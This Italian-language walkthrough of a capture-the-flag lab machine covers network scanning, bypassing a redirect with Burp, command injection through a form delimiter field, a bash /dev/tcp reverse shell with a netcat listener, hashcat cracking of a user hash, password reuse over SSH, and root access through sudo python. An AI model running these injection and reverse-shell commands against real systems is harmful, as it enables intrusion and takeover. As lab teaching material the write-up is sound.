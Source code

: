 - [Scansione Rete](#scansione-rete)
- [Scansione Dettagliate Dispositivo](#scansione-dettagliate-dispositivo)
- [Vedere Redirezione](#vedere-redirezione)
- [Cercare Path con Dizionario Noto](#cercare-path-con-dizionario-noto)
- [Reverse Shell](#reverse-shell)
  - [Accesso al Database](#accesso-al-database)
    - [Controllo Tabelle](#controllo-tabelle)
    - [Decodifica della Password di un Utente](#decodifica-della-password-di-un-utente)
  - [Login come Root](#login-come-root)

# Scansione Rete
 ```bash
$> nmap -sP $(IP-RETE)
 ```

# Scansione Dettagliate Dispositivo
```bash
$> nmap -sV -sC -Pn $(IP-DISPOSITIVO)
```

Si ricerca una porta aperta, che magari ospiti un web server. Se la si trova, si cerca di accedere attraverso il browser web. In questo caso l'indirizzo porta ad una pagina di login.

# Vedere Redirezione
```bash
$> wget $(URL) --no-redirect
```

# Cercare Path con Dizionario Noto
```bash
$> gobuster dir -u $(URL) -w $(WORDLIST) -t $(THREADS_NUMBER) -x $(EXTENSION)
```
Per evitare la redirezione si utilizza Burp, un software pre installato di Kali. Burp intercetterà le richieste in uscita e in entrata tra la nostra macchina e quella attaccata. Può essere inserito come proxy all'interno di Firefox (per semplicità c'è un'estensione chiamata *FoxyProxy*). Una volta fatta la richeta dico a Burp di intercettare la risposta e la forward. In questo modo nel browser riesco ad accedere al path */index.php* che prima mi rendirizzava. Se si riceve un redirect in Burp è possibile cambiare il codice di ritorno da 302 (redirect) a 200 (OK) in modo da poter visualizzare correttamente la pagina di nostro interesse. In questo caso si riesce ad accedere ad una pagina per soli amministratori. Ogni account ha i permessi degli altri. In questa fase ci si limita a navigare nel sito con il solo scopo di esplorarlo e comprenderne le vulnerabilità. Si accede al file `config.php` e si vedono i dati di accesso al Database. Si ha la conferma che è in locale. In questo momento abbiamo accesso a tutti i file del sito che hanno estensione `.php`. Nella sito è presente una pagina con un form che permette di caricare files. In `files.php` si vede che il file viene aperto e caricato direttamente sul database. Per questa volta, seppur non convincente, non è questa la vulnerabilità da sfruttare.

Qui è presente un form che ci fa scegliere il delimitatore. Attraverso Burp è possibile inserire un comando in coda al delimitatore scelto, in questo modo:
```bash
delim = space; echo $(id) > /var/www/out.log
```
L'obiettivo è ora quello di ottenere una *reverse shell*. Una shell che se utilizzata dal nostro computer ci permette di controllare quello della vittima.

# Reverse Shell
Si cercano degli esempi di reverse shell in bash che sfruttano TCP. 
```bash
$> bash -c "bash -i >& /dev/tcp/$(NOSTRO-IP)/$(PORTA) 0>&1"
```
- `bash -c` serve per eseguire un comando
- `bash -i` esegue bash in maniera interattiva. 
- `>&` redirezione di output ed errore su un file. 
- `192.168.174.8` è il nostro IP a cui vogliamo connetterci. 
- `4444` è la  dell'attaccante.
In definitiva si ottiene il comando:
```bash
delim=space; bash -c "bash -i >& /dev/tcp/$(NOSTRO-IP)/$(PORTA) 0>&1"
```
E' necessario codificare le istruzioni date, per farlo è possibile sempre utilizzare l'apposita funzione di Burp. Si ottiene una stringa di codice esadecimale "%75%70%..." (l'istruzione è molto lunga), ottenendo:
```bash
delim=
%75%70%...
```
Prima di fare questo dobbiamo fare in modo che il nostro PC sia in ascolto: per farlo si utilizza il comando `nc` (netcat). 
```bash
$> nc -lvnp 4444
```
Si manda la richiesta POST precedentemente codificata come URL con l'ausilio di Burp e si apre la shell attraverso cui è possibile lanciare comandi. In questo modo ci registriamo al sistema come utente "prova". Modifichiamo la shell in modo da poter utilizzare comandi interattivi come MySQL, per farlo utilizzamo python.
```bash
$> python3 -c "import pty;pty.spawn('/bin/bash')"
```

## Accesso al Database
```bash
mysql -u "yoda" --password="m4yTHEf0rce8W1thU:D" "dagobah"
```

### Controllo Tabelle
```mysql
show tables;
```
Controlliamo quali utenti sono presenti sia sul database che sulla macchina: in questo caso l'utente *vader*. La password sul database viene salvata hashata. Esistono tabelle contenenti la password e il corrispettivo hash (password note). In questo caso nell'hash è stato aggiunto il "sale" (🧂), una stringa utilizzata per cambiare l'hash della password. Le tabelle così non sempre risultano utili. Solitamente il sale è una stringa casuale più o meno lunga. 

### Decodifica della Password di un Utente
Non è possibile decodificare un hash, ma è possibile confrontare l'hash con un dizionario di password già note. Per farlo si utilizza **hashcat**.

La password corrispondente a vader sul db è la seguente: `$1$🧂llol$W7ysLjEZ.BUStjXoWzQKl/`. Si conosce l'algoritmo utilizzato che viene codificato con `$1`. Per trovare la password di nostro interesse sarebbe possibile creare uno script in PHP con un dizionario noto, oppure utilizzare un tool, già presente su Kali, chiamato *hashcat*. Per farlo salviamo l'hash della password da scoprire in un file *hash*. 

Come vediamo dall'url contenente gli [esempi di hash](https://hashcat.net/wiki/doku.php?id=example_hashes), l'hash `$1` corrisponde all' *hash-mode* numero 500 di hashcat. Come *wordlist* si utilizza *rockyou*, una lista contenente le password più utilizzate. Ora possiamo eseguire hashcat, che impiega più o meno tempo a seconda della configurazione e dell'hardware utilizzato.
```bash
$> hashcat -a 0 -m 500 ~/hash /usr/share/wordlists/rockyou.txt
```
Una volta trovata la password, per mostrare il risultato si esegue:
```bash
$> hashcat -a 0 -m 500 ~/hash /usr/share/wordlists/rockyou.txt --show
```
La password di *vader* risula essere *sithlord1*. Il computer collegato alla rete esponeva due porte: la 80 e la 22. Vediamo se utilizza la stessa password anche per la sua macchina, collegandoci alla porta 22. L'esito di questa operazione è positivo. 

## Login come Root
Proviamo a diventare *root* (con il comando *su*), ma in questo caso la password è diversa. Guardiamo quali altri utenti sono presenti sulla macchina, con:
```bash
$> cat /etc/passwd
```
Proviamo ad utilizzare *sudo*, ma anche in questo caso la macchina è stata configurata decentemente e non è l'utente *vader* non può diventare amministratore. Lanciano il comando *groups* vediamo che l'utente *vader* è comunque all'interno del gruppo *sudo*, pertanto ci sono alcuni comandi che può eseguire come amministratore, per vedere quali sono lanciamo il comando:
```bash
$> sudo -l
```
Con questo comando il terminale stampa la configurazione di sudo per l'utente con cui siamo loggati.

Vediamo che l'utente vader può eseguire python3 come amministratore, ma non quello che si esegue quando si lancia il comando *python3*, bensì quello nel percorso */opt/python3*. Eseguendolo utilizziamo python come root.
```bash
$> sudo /opt/python3
```
Ora che siamo root, possiamo scrivere un file in python, assicurandoci di essere root con una semplice write:
```python
>>> with open("/home/vader/test", "w") as f:
...     f.write("ciao)
```
Controlliamo il file appena creato:
```bash
$> ls -asl
```
E tra i file troviamo il *test* creato dall'utente *root* appartenente al gruppo *root*. Ora che siamo sicuri di eseguire come root quando utilizziamo python, possiamo eseguire un bash utilizzandolo:
```python
>>> import pty; pty.spawn("/bin/bash)
```
Un'altra vulnerabilità, sempre presente su questa macchina ma che non riguarda l'utilizzo di python la si può trovare nei gruppi. Per trovarla si consiglia di utilizzare un tool che consente di fare un'analisi di tutto ciò che è presente sul sistema: *LinPeas*. Analizzando l'output del tool dovrebbe apparire chiaramente che c'è un problema su un gruppo dell'utente. Da qui si dovrà capire qual è la vulnerabilità da sfruttare e come sfruttarla. Quindi per questa macchina, oltre al metodo visto con python, è necessario specificare *un altro metodo per fare Privilege Escalation*.
